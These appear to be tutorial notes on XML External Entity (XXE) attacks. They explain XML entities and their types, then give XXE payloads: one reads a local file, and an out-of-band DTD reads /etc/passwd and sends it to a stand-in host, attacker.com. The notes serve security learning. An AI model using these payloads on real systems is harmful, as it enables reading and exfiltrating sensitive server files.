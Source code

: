 # XML External Entities

XML is about data transportation and sometimes storage

Use in API, UIs, config files and RSS feeds.

``` xml
<?xml version="1.0"?> <!-- xml metadata-->
<Person>
<Name>John</Name>
<Age>20</Age>
</Person>
```

Tag names are case sensitive
`<>"'` are not allowed in the document directly because XML parsers will have trouble interpreting it correctly

## Entities

**Entities** are like variables for XML. You can assign a value to it an use it multiple times in the document. They are are declared in **Document Type Defintion (DTD)**

``` xml
<!DOCTYPE Person [
    <!ENTITY name "John">
]>
<Person>
    <Name>&name;</Name>
    <Age>20</Age>
</Person>
```

There are many types of entities

* internal - defined within local DTD.

    ``` dtd
    <!DOCTYPE doc [
        <!ENTITY foo "bar">
    ]>
    ```

    Can be referred to within the XML as `&foo;` and will be replaced with the term "bar"
* external - defined outside of local DTD

    ``` dtd
    <!ENTITY foo SYSTEM "file:///external.dtd">
    ```

* parameter - only allowed inside DTD. Is used with the `%` symbol  
E.g. creating an entity whose value is another entity

    ``` xml
    <!DOCTYPE Person [
        <!ENTITY % outer "<!ENTITY inner 'John'>">
    ]>
    ```

* predefined - a set of predefined values of special characters

    ``` xml
    <hello>&#x3C;</hello>
    ```

Entities can

* store values we specify
* pull values from a local files
* fetch remote data over the network and store them as entities

``` xml
<?xml version="1.0"?>
<!DOCTYPE XXE [
    <!ENTITY subscribe SYSTEM "secret.txt">
    <!-- SYSTEM lets the entity know the XML parser know that the entity is external -->
    <!-- It stores the contents of "secret.txt" into subscribe -->
]>
<pwn>&subscribe;</pwn>
```

There are different types of XXE's; inband, error, out-of-band (OOB)

* inband - the XML will be parsed and the output will be shown on the screen
* error - a blink XXE, where you basically see a bunch of errors
* OOB - xml is parsed, but you can't see the output

``` xml
<!-- main.xml -->
<?xml version="1.0"?>
<!DOCTYPE data SYSTEM "http://attacker.com/evil.dtd">
<data>&send;</data>
```

``` dtd
<!-- evil.dtd -->
<!ENTITY % passwd SYSTEM "file:///etc/passwd">
<!ENTITY % wrapper "<!ENTITY send SYSTEM 'http://attacker.com/?%passwd;'>">
%wrapper;

<!-- This is interpreted as
<!ENTITY % passwd SYSTEM "file:///etc/passwd">
<!ENTITY %wrapper "<!ENTITY send SYSTEM 'http://attacker.com/?%passwd;'>">
<!ENTITY send SYSTEM 'http://attacker.com/?CONTENTS_OF_PASSWD>
-->
```
